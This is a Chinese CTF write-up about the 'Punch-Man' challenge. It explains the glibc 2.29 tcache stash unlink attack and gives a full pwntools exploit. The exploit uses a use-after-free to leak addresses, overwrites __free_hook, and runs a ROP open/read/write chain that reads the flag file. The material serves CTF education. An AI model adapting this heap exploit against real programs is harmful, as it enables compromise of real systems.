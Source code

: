 ---
title: Tache Stash Unlink Attack:Punch-Man
date: 2021-06-24 10:49:43
tags:
----
Punch-Man & tache stash unlink attack
<!--more-->
# **prologue**

很棒的一题，主要使用了libc-2.29下利用 `small bin tache stash` tacache中有6个chunk的情况，攻击效果是类似于之前版本的 `unsorted bin attack` 往任意地址写固定值。

# **analyze**

- libc=2.29
- 保护全开+orw
- UAF
- malloc范围限制在small bin范围

UAF比较明显，很容易泄漏heapbase&libcbase,主要难在利用，因为题目用的是calloc所以不从tcache里面取，有个隐藏菜单可以malloc 0x217，但仅限于tcache满的时候。

所以在这种情况下，tcache和small bin的路已经被锁死了，需要用 `small bin`相关的利用来扩大利用。

# **tcache stash in small bin**

libc 2.29引入的新机制，可以在[这里][1]看看，和本题相关的简单来说当tcache未满时从small bin取下一个时会将剩下的chunk放入tcache，但是检查不严格。如下可以看到，没有检查bck的fd是不是victim。

```c
#if USE_TCACHE
          /* While we're here, if we see other chunks of the same size,
             stash them in the tcache.  */
          size_t tc_idx = csize2tidx (nb);
          if (tcache && tc_idx < mp_.tcache_bins)
            {
              mchunkptr tc_victim;
              /* While bin not empty and tcache not full, copy chunks over.  */
              while (tcache->counts[tc_idx] < mp_.tcache_count
                     && (tc_victim = last (bin)) != bin)
                {
                  if (tc_victim != 0)
                    {
                      bck = tc_victim->bk;//*
                      set_inuse_bit_at_offset (tc_victim, nb);
                      if (av != &main_arena)
                        set_non_main_arena (tc_victim);
                      bin->bk = bck;
                      bck->fd = bin;
                      tcache_put (tc_victim, tc_idx);
                    }
                }
            }
#endif
```

这里的利用方式有很多，本题中因为最少只能有6个chunk在tcache中（0x220），能达成的效果只有类似unsorted bin atk。

构造方式: small bin 有2个chunk，tcache有6个chunk.

构造small bin 第二个chunk的 fd不变，bk为需要写的地址-0x10。

calloc 掉一个smallbin就可以触发，往构造的地址写一个固定的值。

# **solution**

我想到的比较方便的是攻击global_max_size。

我的思路：要想获得任意地址写可以走small bin 可以走tcache，但是tcache比较简单先试试tcache；因为只能malloc一个所以要么直接控制heap开始的时候那个tcache结构体要么把计数器改成很大（这个试了一下发现因为寄存器存值所以失败了）；然后目标是tcache结构体，现有能力是任意地址写固定值，所以就自然而然地改掉global_max_size然后fast bin atk

# **EXP**

```c
from pwn import *
context.arch='amd64'
context.log_level='debug'

context.terminal=['tmux','split','-h']
def cmd(c):
    p.sendlineafter("> ",str(c))
def add(idx,size):
    cmd(1)
    p.sendlineafter(": ",str(idx))
    p.sendafter(": ",size*"A")
def free(idx):
    cmd(4)
    p.sendlineafter(": ",str(idx))
def edit(idx,c):
    cmd(2)
    p.sendlineafter(": ",str(idx))
    p.sendafter(": ",c)
def show(idx):
    cmd(3)
    p.sendlineafter(": ",str(idx))
def punch(c="A"):
    cmd(0xc388)
    p.send(c)
p=process('./pwn')

for x in range(2):
    add(0,0x217)
    free(0)
show(0)
p.readuntil("name: ")
heap=u64(p.readline()[:-1]+b'\0\0')-0x260
for x in range(5): 
    add(0,0x217)
    free(0)

add(0,0x217)
add(1,0x217)
free(0)
show(0)
p.readuntil("name: ")
base=u64(p.readline()[:-1]+b'\0\0')-(0x7ffff7fbfca0-0x7ffff7ddb000)
free(1)
# clear
for x in range(7):
    add(0,0x248)
    free(0)
add(0,0x217)
add(1,0x88)
add(1,0x217)
add(2,0x88)
free(0)
free(1)
add(2,0x248)
punch()
edit(1,p64(0x2160+heap)+p64(0x7ffff7fc1600-0x7ffff7dda000+base-0x10))
add(0,0x217)
free(2)
edit(2,p64(heap))

add(2,0x248)
add(2,0x248)

free_hook=0x1e75a8+base
edit(2,'\0'*0x248)
edit(2,b'\0'*0x20+b'\7'*8+b'\0'*0xa0+p64(free_hook)*0x10)
punch(p64(0x7ffff7f2a550-0x7ffff7dda000+base))

#++++++++++++++++++++++++++++++
# Before starting this module, I 
# hope you have set free_hook
# ==> magic gadget <3 
chunk=heap+0x10
# chunk is Free's first Parameter
#+++++++++++++++++++++++++++++++
payload=p64(0)+p64(chunk)+b'\0'*0x10+p64(0x55e35+base)
libc=ELF("/lib/x86_64-linux-gnu/libc-2.29.so")
libc.address=base
rop = ROP(libc)
sys = rop.find_gadget(['syscall','ret'])[0]
rsp=chunk
rdi=0
rsi=rsp
rdx=0x110
rbp=rsi-8
rcx=sys
payload=payload.ljust(0x68,b'\0')+flat([rdi,rsi,rbp,0,rdx,0,0,rsp,rcx])
edit(2,payload)
gdb.attach(p,'b free')
free(2)

rop.read(3,chunk+0x110,0x100)
rop.write(1,chunk+0x110,0x100)
rop.dump()
pyaload_rw =rop.chain()

rax = rop.find_gadget(['pop rax','ret'])[0]
rdi = rop.find_gadget(['pop rdi','ret'])[0]
rsi = rop.find_gadget(['pop rsi','ret'])[0]
rdx = rop.find_gadget(['pop rdx','ret'])[0]
pyaload_open =flat([rax,0x2,rdi,chunk+0xf8,rsi,0,rdx,0,sys])
pay = pyaload_open+pyaload_rw
p.send(pay.ljust(0xf8,b'\0')+b'/flag\0')

p.interactive()
```

[1]: https://n132.github.io/2021/05/09/New-Check-In-Glibc-2-29.html